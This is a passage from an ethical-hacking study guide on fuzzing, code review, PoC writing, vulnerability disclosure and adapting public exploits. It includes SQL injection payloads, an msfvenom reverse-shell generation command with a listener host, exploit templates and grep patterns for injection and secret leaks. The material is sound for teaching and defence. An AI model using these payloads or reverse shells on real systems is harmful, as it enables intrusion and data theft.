Fuzzing is responsible for discovering thousands of CVEs including major vulnerabilities in browsers, PDF readers, image parsers, and network stacks.

---

### 11.2 Types of Fuzzing

| Type | Description | Tools |
|------|-------------|-------|
| **Mutation-based** | Takes valid input and mutates it (bit flips, byte substitutions) | AFL++, radamsa |
| **Generation-based** | Generates inputs from scratch using a grammar/model | Peach Fuzzer, Boofuzz |
| **Coverage-guided** | Uses code coverage feedback to guide mutation toward new code paths | AFL++, libFuzzer, Honggfuzz |
| **Smart/Model-based** | Uses protocol knowledge to generate semi-valid inputs | Boofuzz, custom |
| **Concolic (DSE)** | Combines concrete execution with symbolic analysis | KLEE, Triton |

---

### 11.3 AFL++ (American Fuzzy Lop++)

AFL++ is the most widely used open-source fuzzer, extending the original AFL with numerous improvements.

```bash
# Install AFL++
sudo apt install afl++

# Or compile from source
git clone https://github.com/AFLplusplus/AFLplusplus
cd AFLplusplus && make distrib && sudo make install

# Step 1: Instrument the target binary
AFL_HARDEN=1 afl-cc -o target_fuzz ./target.c
# Or with LLVM mode (better coverage)
CC=afl-clang-fast afl-clang-fast -o target_fuzz ./target.c

# Step 2: Create seed corpus (valid inputs)
mkdir seeds/ output/
echo "AABBCC" > seeds/seed1.bin
cp valid_input.jpg seeds/

# Step 3: Run AFL++
afl-fuzz -i seeds/ -o output/ -- ./target_fuzz @@
# @@ is replaced with the mutated input file path

# Step 4: Monitor with afl-whatsup
afl-whatsup output/

# Step 5: Analyze crashes
ls output/default/crashes/
./target_fuzz output/default/crashes/id:000001,*

# Persistent mode (much faster - ~100x speedup)
# Modify source to use __AFL_LOOP():
# while (__AFL_LOOP(1000)) { /* fuzz target here */ }
afl-clang-fast -o target_persistent persistent_target.c
```

---

### 11.4 libFuzzer

libFuzzer is LLVM's built-in fuzzing engine, tightly integrated with AddressSanitizer and other sanitizers.

```bash
# Step 1: Write a fuzz target (harness)
cat > fuzz_target.cpp << 'EOF'
#include <stdint.h>
#include <stddef.h>
#include "target_lib.h"

extern "C" int LLVMFuzzerTestOneInput(const uint8_t *data, size_t size) {
    parse_image(data, size);
    return 0;  // Return 0 = non-crashing
}
EOF

# Step 2: Compile with libFuzzer + AddressSanitizer
clang++ -fsanitize=fuzzer,address -o fuzz_target fuzz_target.cpp -ltarget_lib

# Step 3: Run
./fuzz_target corpus_dir/

# Common flags
./fuzz_target \
    -max_total_time=3600 \
    -jobs=4 \
    -workers=4 \
    corpus_dir/
```

---

### 11.5 Fuzzing Targets

| Target Type | Fuzzing Approach | Tool |
|-------------|------------------|------|
| **File parsers** | Feed mutated files via stdin or temp file | AFL++, libFuzzer |
| **Network services** | Fuzz protocol messages over loopback | Boofuzz, AFL++ network mode |
| **REST APIs** | Fuzz JSON/XML payloads | RESTler, Schemathesis |
| **CLI tools** | Fuzz command-line argument parsing | AFL++ |
| **Libraries** | Write harness calling library functions | libFuzzer, Honggfuzz |
| **Browser engines** | Grammar-based JS fuzzing | Domato, Dharma |

---

## 12. Source Code Review for Vulnerabilities

### 12.1 Manual Code Audit Checklist

```
Authentication & Authorization
  [ ] Password handling -- hashing algorithm (bcrypt, argon2, not MD5/SHA1)
  [ ] Token generation -- cryptographically random, sufficient entropy
  [ ] Authorization checks -- applied consistently at every endpoint
  [ ] Session management -- secure flags, proper expiration

Input Validation & Injection
  [ ] SQL queries -- parameterized, ORM safe, no string concatenation
  [ ] Command injection -- shell calls with user input
  [ ] Path traversal -- file operations with user-controlled paths
  [ ] XML injection -- XXE, SSRF via XML parsers
  [ ] Template injection -- SSTI in templating engines

Cryptography
  [ ] No hardcoded secrets (API keys, passwords, tokens)
  [ ] Proper key lengths (AES-256, RSA-2048+)
  [ ] No ECB mode, use GCM/CTR for AES
  [ ] Proper IV/nonce handling (random, never reused)

Memory Safety (C/C++)
  [ ] Buffer bounds checking before memcpy/strcpy
  [ ] Integer overflow checks
  [ ] Use-after-free -- pointer nullification after free()
  [ ] Format string bugs (printf with user input)

Race Conditions / TOCTOU
  [ ] File operations between check and use
  [ ] Shared memory/resource access without locks
```

---

### 12.2 grep Patterns for Common Vulnerabilities

```bash
# SQL Injection patterns
grep -rn "query.*\+.*request\|execute.*format\|SELECT.*%s" --include="*.py" .
grep -rn "\"SELECT.*\"\s*\+" --include="*.java" .
grep -rn "\$_GET\|\$_POST\|\$_REQUEST" --include="*.php" . | grep -v "mysqli_real_escape"

# Command Injection patterns
grep -rn "exec\|system\|popen\|subprocess\.call.*shell=True" --include="*.py" .
grep -rn "Runtime\.getRuntime\(\)\.exec\|ProcessBuilder" --include="*.java" .
grep -rn "shell_exec\|exec\|passthru\|system\|popen" --include="*.php" .

# Path Traversal patterns
grep -rn "open(.*\.\./\|readFile.*req\|path\.join.*req\." --include="*.js" .
grep -rn "File(.*getParameter\|new File(.*input" --include="*.java" .

# XSS patterns
grep -rn "innerHTML\|document\.write\|eval(" --include="*.js" .
grep -rn "echo.*\$_GET\|print.*\$_POST" --include="*.php" . | grep -v "htmlspecialchars"

# Hardcoded secrets
grep -rni "password\s*=\s*['\"].\+['\"]" --include="*.py" .
grep -rni "api_key\s*=\s*['\"][A-Za-z0-9]\{20,\}" .
grep -rni "secret\s*=\s*['\"]" --include="*.js" .

# Deserialization
grep -rn "pickle\.loads\|yaml\.load\b" --include="*.py" .
grep -rn "ObjectInputStream\|readObject()" --include="*.java" .
grep -rn "unserialize(" --include="*.php" .
```

---

### 12.3 Semgrep — Static Analysis Tool

```bash
# Install Semgrep
pip install semgrep

# Run community rules
semgrep --config=auto ./src/

# Run specific rulesets
semgrep --config=p/python ./
semgrep --config=p/owasp-top-ten ./
semgrep --config=p/sql-injection ./

# JSON output for parsing
semgrep --config=auto --json -o findings.json ./

# Write a custom rule
cat > custom_rules/sqli_check.yaml << 'EOF'
rules:
  - id: sql-injection-string-concat
    patterns:
      - pattern: |
          $QUERY = "SELECT" + $USER_INPUT
      - pattern: |
          cursor.execute("..." + $INPUT)
    message: |
      Potential SQL injection via string concatenation.
      Use parameterized queries instead.
    languages: [python]
    severity: ERROR
    metadata:
      cwe: CWE-89
      owasp: A03:2021 - Injection
EOF

# Run custom rule
semgrep --config=custom_rules/sqli_check.yaml ./
```

---

### 12.4 Code Review Methodology

**Data Flow Analysis:**
1. Identify all **sources** — user-controlled inputs (HTTP params, form fields, headers, cookies)
2. Identify all **sinks** — dangerous functions (SQL queries, exec(), file operations, innerHTML)
3. Trace data flow from source to sink — look for **missing sanitization/validation** along the path
4. Map **trust boundaries** — where does data cross from untrusted to trusted domain?

```
User Input -> [Validation?] -> [Sanitization?] -> [Encoding?] -> Dangerous Sink
     |               |                 |                |
   Source        Missing?          Missing?         Missing?
```

**Taint Tracking**: Modern SAST tools (Semgrep, CodeQL) automate this by marking user inputs as "tainted" and tracking whether taint reaches a dangerous sink without being sanitized.

---

## 13. Proof of Concept Development

### 13.1 What Makes a Good PoC?

A quality Proof of Concept:
- **Demonstrates exploitability** without causing harm
- **Is reproducible** — anyone with the same setup can reproduce it
- **Is minimal** — only the code necessary to prove the point
- **Documents clearly** — explains what it does step by step
- **Includes evidence** — screenshots, HTTP traffic, logs proving success

---

### 13.2 Non-Destructive Testing Principles

```python
# Bad PoC - destructive payload
payload = "'; DROP TABLE users; --"

# Good PoC - time-delay proof (non-destructive)
payload = "'; SELECT SLEEP(5); --"

# Good PoC - out-of-band data exfil (non-destructive, benign data only)
payload = "'; SELECT @@version INTO OUTFILE '/tmp/poc_verify.txt'; --"

# Preferred: boolean-based confirmation (zero impact)
# Check: if response_time > 5 and query returns unexpected data -> SQLi confirmed
```

**Principles:**
1. Use time-based or out-of-band techniques over in-band data exfiltration
2. Never access other users data — use your own test account
3. Use unique identifiers in payloads for attribution
4. Keep PoC impact limited to proving the vulnerability class, not full exploitation

---

### 13.3 Demonstrating CVSS Impact (CIA Triad)

| CVSS Metric | What to Demonstrate |
|-------------|---------------------|
| **Confidentiality** | Read sensitive data (even just a non-sensitive field as proof) |
| **Integrity** | Modify a test value (then revert it) |
| **Availability** | Cause a controlled, recoverable denial (e.g., error response) |

---

### 13.4 PoC vs Weaponized Exploit

| Aspect | PoC | Weaponized Exploit |
|--------|-----|--------------------|
| **Purpose** | Prove vulnerability exists | Gain full system control |
| **Payload** | Benign (print statement, sleep) | Reverse shell, backdoor |
| **Automation** | Manual / semi-automated | Fully automated attack chain |
| **Ethical use** | Bug bounty, pentest reporting | Red team ops only (with auth) |

---

### 13.5 Documentation and Evidence Collection

```bash
# Capture HTTP traffic with Burp Suite
# Proxy -> HTTP history -> Right-click -> Save item

# Terminal session logging
script -f session_log.txt
# Do your testing
exit

# Screenshot automation
scrot "screenshots/poc_%Y%m%d_%H%M%S.png"

# Record video of PoC execution
ffmpeg -video_size 1920x1080 -framerate 25 -f x11grab -i :0 poc_video.mp4

# Network packet capture
tcpdump -i eth0 -w poc_capture.pcap host target.example.com
```

---

## 14. Vulnerability Disclosure Reports

### 14.1 Required Report Sections

```
Report ID: VDR-2024-001
Date: 2024-09-05
Reporter: [Your Name/Handle]
Contact: your@email.com
Severity: Critical (CVSS 9.8)
CVE: Pending Assignment

EXECUTIVE SUMMARY
A critical SQL injection vulnerability was identified in the /api/v2/users/search
endpoint of Example Corp's customer portal. An unauthenticated attacker can extract
the entire user database, including password hashes and PII for approximately 2.3
million users.

TIMELINE
| Date       | Event                                       |
| 2024-08-15 | Vulnerability discovered during research    |
| 2024-08-15 | PoC developed and validated                 |
| 2024-08-16 | Initial contact with vendor security team   |
| 2024-08-17 | Vendor acknowledged receipt                 |
| 2024-09-05 | This report submitted                       |

TECHNICAL DETAILS
Affected Component: /api/v2/users/search
Vulnerability Class: SQL Injection (CWE-89)
Authentication Required: No
CVSS Vector: AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N

ROOT CAUSE
The username parameter is concatenated directly into a SQL query without
parameterization or sanitization.

Vulnerable Code (reconstructed):
  query = "SELECT id, username FROM users WHERE username = '" + username + "'"

STEPS TO REPRODUCE
Prerequisites: None (unauthenticated)
Tools Required: curl or any HTTP client

1. Send the following HTTP request:
   GET /api/v2/users/search?username=test' OR '1'='1 HTTP/1.1
   Host: portal.example.com

2. Observe that the response returns all user records

3. To extract database version (non-destructive):
   GET /api/v2/users/search?username=test' UNION SELECT 1,@@version-- HTTP/1.1

IMPACT ASSESSMENT
- Confidentiality: COMPLETE - Full database exfiltration possible
- Integrity: HIGH - Data modification possible via UPDATE/INSERT
- Availability: MEDIUM - Database deletion theoretically possible

REMEDIATION RECOMMENDATIONS
Immediate (24 hours):
1. Disable the /api/v2/users/search endpoint
2. Audit all logs for signs of exploitation

Short-term (1 week):
1. Replace string concatenation with parameterized queries
2. Implement input validation (allowlist: alphanumeric + underscore only)

Long-term:
1. Conduct full codebase audit for similar patterns
2. Implement SAST tooling in CI/CD pipeline
3. Deploy WAF with SQL injection ruleset
```

---

### 14.2 Communicating with Vendors Professionally

**Dos:**
- Be factual, not threatening
- Provide clear reproduction steps
- Offer to answer follow-up questions
- Acknowledge their remediation work
- Request CVE credit if applicable

**Don'ts:**
- Do not threaten to publish if they do not pay
- Do not overstate severity
- Do not contact personal email/social media of individual engineers
- Do not go public before the agreed deadline passes
- Do not demand unrealistic fix timelines

---

## 15. Tracking Vulnerabilities

### 15.1 RSS Feeds

```
NVD Critical CVEs:
  https://nvd.nist.gov/feeds/xml/cve/misc/nvd-rss-analyzed.xml

CERT/CC Vulnerability Notes:
  https://www.kb.cert.org/vuls/atomfeed/

US-CERT Alerts:
  https://www.cisa.gov/uscert/ncas/alerts.xml

Bleeping Computer (security news):
  https://www.bleepingcomputer.com/feed/

Krebs on Security:
  https://krebsonsecurity.com/feed/

Full Disclosure mailing list:
  https://seclists.org/rss/fulldisclosure.rss
```

---

### 15.2 Feedly Security Feeds

Recommended Feedly collection for security researchers:
- **NVD CVE Feed** — nvd.nist.gov
- **Krebs on Security** — krebsonsecurity.com
- **The Hacker News** — thehackernews.com
- **Bleeping Computer** — bleepingcomputer.com
- **Security Week** — securityweek.com
- **Project Zero Blog** — googleprojectzero.blogspot.com
- **Microsoft Security Blog** — msrc-blog.microsoft.com
- **Offensive Security Blog** — offensive-security.com/blog

---

### 15.3 Security Researchers to Follow (X/Twitter)

| Handle | Specialty |
|--------|-----------|
| @taviso | Browser/Linux exploitation |
| @natashenka | Chrome/browser security |
| @jondonjr | Bug bounty, web vulnerabilities |
| @orange_8361 | Server-side vulnerabilities, SSRF |
| @lcamtuf | AFL fuzzing, security research |
| @_MG_ | Hardware hacking |
| @swisskyrepo | Pentesting, PayloadsAllTheThings |
| @GrahamHelton3 | Active Directory, red team |
| @0xdf_ | HTB writeups, CTF |
| @TomNomNom | Bug bounty tooling |

---

### 15.4 Slack/Discord Security Communities

| Community | Focus |
|-----------|-------|
| **Bloodhound Gang** (Discord) | Active Directory attacks |
| **Hack The Box** (Discord) | CTF, practice labs |
| **TryHackMe** (Discord) | Learning paths, rooms |
| **BugBountyHunters** (Slack) | Bug bounty discussion |
| **SANS Internet Storm Center** (Discord) | Threat intel |
| **DC CyberSec** (Discord) | General security |

---

## 16. OSCP-Style Exploit Modification

### 16.1 Taking a Public Exploit and Adapting It

Public exploits from Exploit-DB, GitHub, or Searchsploit are almost never drop-in ready. Modification is a core skill tested in OSCP.

**Typical modifications needed:**

```bash
# 1. Find the exploit
searchsploit vsftpd 2.3.4
searchsploit -m 17491
cat 17491.py
```

```python
# Original exploit has hardcoded values:
HOST = "192.168.1.1"       # Change to target IP
PORT = 21                   # Change to target FTP port

# Reverse shell listener details:
LHOST = "192.168.1.100"    # Change to YOUR IP
LPORT = 4444                # Change to YOUR listener port

# Shellcode (x86 vs x64):
shellcode = b"\x31\xc0\x50..."  # May need to regenerate for target arch

# Offset (buffer overflow exploits):
OFFSET = 2003              # Must match target binary (find via pattern_create)
```

---

### 16.2 Common Modifications

```bash
# Regenerate shellcode for specific target
msfvenom -p linux/x86/shell_reverse_tcp \
    LHOST=10.10.14.5 LPORT=9001 \
    -f py -b "\x00\x0a\x0d" \
    -e x86/shikata_ga_nai

# Find exact offset (Metasploit pattern)
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2000
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x41396341

# Or with pwntools
from pwn import cyclic, cyclic_find
payload = cyclic(200)
# After crash, get EIP/RIP value from debugger
offset = cyclic_find(0x61616167)  # EIP value from crash
```

---

### 16.3 Testing in a Controlled Environment First

```bash
# Step 1: Set up an identical vulnerable environment
# - VulnHub VM matching target OS version
# - Docker container with same software version
# - Local install on isolated VM

# Step 2: Test exploit against local target
python3 exploit.py --target 127.0.0.1 --port 8080

# Step 3: Verify in debugger (if needed)
gdb -q ./vulnerable_binary
# Inside GDB:
(gdb) run < payload.bin
(gdb) info registers
(gdb) x/20xw $esp

# Step 4: Only then target the actual engagement machine
```

---

### 16.4 Debugging Failed Exploits

```bash
# Common failure reasons and fixes:

# 1. Bad characters in shellcode
# Test all characters, find bad ones
for i in $(seq 1 255); do printf "\x$(printf '%02x' $i)"; done | nc -q 1 target 4444

# 2. ASLR defeating the exploit
cat /proc/sys/kernel/randomize_va_space
# 0 = disabled, 2 = full ASLR
# Bypass: ret2libc, ROP chains, info leaks

# 3. Stack canary killing the exploit
# Check for canary
checksec --file=./vulnerable_binary
# Bypass: overwrite with correct canary value, format string leak

# 4. DEP/NX preventing shellcode execution
checksec --file=./vulnerable_binary
# Bypass: ROP chains (ret2plt, ret2libc)

# 5. Exploit works locally but not remotely
# Check: ASLR state, libc version, OS version differences
# Use: pwntools remote() instead of process()
```

---

## 17. Quick Reference Tables

### 17.1 Vulnerability Research Workflow

| Phase | Action | Tools |
|-------|--------|-------|
| **1. Reconnaissance** | Identify target tech stack, versions | Nmap, Wappalyzer, Shodan |
| **2. Vuln Identification** | Search for known vulns in target versions | Searchsploit, NVD, Sploitus |
| **3. PoC Location** | Find working PoC code | Exploit-DB, GitHub, Nuclei templates |
| **4. PoC Validation** | Verify PoC works against target version | Sandbox environment, controlled test |
| **5. PoC Adaptation** | Modify IP/port/shellcode/offset | Text editor, msfvenom, pwntools |
| **6. Exploitation** | Execute against authorized target | Python/Ruby script, Metasploit |
| **7. Documentation** | Record evidence, write report | Script, Burp, screenshots, ffmpeg |
| **8. Disclosure** | Report to vendor or bug bounty platform | HackerOne, email, CERT/CC |

---

### 17.2 Searchsploit Flags Reference

| Flag | Long Form | Description | Example |
|------|-----------|-------------|---------|
| `-t` | `--title` | Search in titles only | `searchsploit -t apache 2.4` |
| `-p` | `--path` | Display full path to exploit | `searchsploit -p 47887` |
| `-x` | `--examine` | View exploit file in terminal | `searchsploit -x 47887` |
| `-m` | `--mirror` | Copy exploit to CWD | `searchsploit -m 47887` |
| `-u` | `--update` | Update local database | `searchsploit -u` |
| `-e` | `--regex` | Enable regex in query | `searchsploit -e "Buffer.*Win"` |
| `--cve` | `--cve` | Search by CVE ID | `searchsploit --cve CVE-2021-44228` |
| `--id` | `--id` | Show EDB-ID numbers only | `searchsploit --id vsftpd` |
| `--nmap` | `--nmap` | Search from nmap XML | `searchsploit --nmap scan.xml` |
| `-j` | `--json` | JSON output | `searchsploit -j apache` |
| `--colour` | `--colour` | Enable colored output | `searchsploit --colour smb` |

---

### 17.3 Nuclei Template Structure Reference

| Field | Required | Description | Values |
|-------|----------|-------------|--------|
| `id` | Yes | Unique template identifier | `cve-2021-44228` |
| `info.name` | Yes | Human-readable name | `Apache Log4j RCE` |
| `info.author` | Yes | Author handle | `researcher` |
| `info.severity` | Yes | Severity level | `info,low,medium,high,critical` |
| `info.tags` | Yes | Searchable tags | `cve,rce,java` |
| `info.description` | No | Detailed description | Markdown text |
| `info.reference` | No | External references | URL list |
| `requests[].method` | Yes (HTTP) | HTTP method | `GET,POST,PUT,DELETE` |
| `requests[].path` | Yes (HTTP) | Target paths | `["{{BaseURL}}/admin"]` |
| `matchers[].type` | Yes | Matcher type | `word,regex,status,dsl` |
| `matchers[].part` | No | Where to match | `body,header,status` |
| `extractors[].type` | No | Extractor type | `regex,kval,json,xpath` |

---

### 17.4 Disclosure Timeline Comparison

| Organization | Initial Notice | Deadline | Grace Period | Public if Unpatched? |
|---|---|---|---|---|
| **Google Project Zero** | 0-day of discovery | 90 days | +14 days | Yes — automatic |
| **CERT/CC** | Immediate | 45-90 days | Case-by-case | Yes |
| **Zero Day Initiative** | Immediate | 120 days | Rarely granted | Yes |
| **HackerOne Programs** | Via report submission | 90 days (typical) | Program discretion | Researcher decision |
| **Microsoft MSRC** | Via report portal | Patch Tuesday aligned | For complex issues | Mutual agreement |
| **Apple** | Via security portal | Undefined | Often extended | Mutual agreement |
| **Cisco PSIRT** | psirt@cisco.com | 90 days | For complex issues | Coordinated |
| **US-CERT/CISA** | Via web form | 45 days (default) | Flexible | Yes |

---

### 17.5 Vulnerability Severity to CVSS Mapping

| Severity | CVSS Score | Typical Bug Bounty Pay | Patch Priority |
|----------|-----------|----------------------|----------------|
| **Critical** | 9.0-10.0 | $5K-$100K+ | Immediate (24-48h) |
| **High** | 7.0-8.9 | $1K-$15K | Within 7 days |
| **Medium** | 4.0-6.9 | $200-$2K | Within 30 days |
| **Low** | 0.1-3.9 | $50-$500 | Next release cycle |
| **Informational** | 0.0 | $0 | Best effort |

---

## Appendix: Essential Tools Summary

| Tool | Purpose | Install |
|------|---------|---------|
| `searchsploit` | Offline Exploit-DB search | `apt install exploitdb` |
| `nuclei` | Template-based vuln scanner | `apt install nuclei` |
| `semgrep` | Static code analysis | `pip install semgrep` |
| `afl++` | Coverage-guided fuzzer | `apt install afl++` |
| `pwntools` | Exploit development framework | `pip install pwntools` |
| `binwalk` | Firmware analysis | `apt install binwalk` |
| `ghidra` | Reverse engineering / binary diff | Download from NSA GitHub |
| `msfvenom` | Shellcode generation | Included with Metasploit |
| `gdb + peda` | Dynamic binary analysis | `apt install gdb` |
| `burpsuite` | HTTP proxy / web testing | `apt install burpsuite` |

---

*End of Document — Vulnerability Research, CVE Lifecycle and Exploit-DB Mastery*
*Volume 04 | Ethical Hacking VAPT Master Notes*
*For authorized security testing and educational use only.*
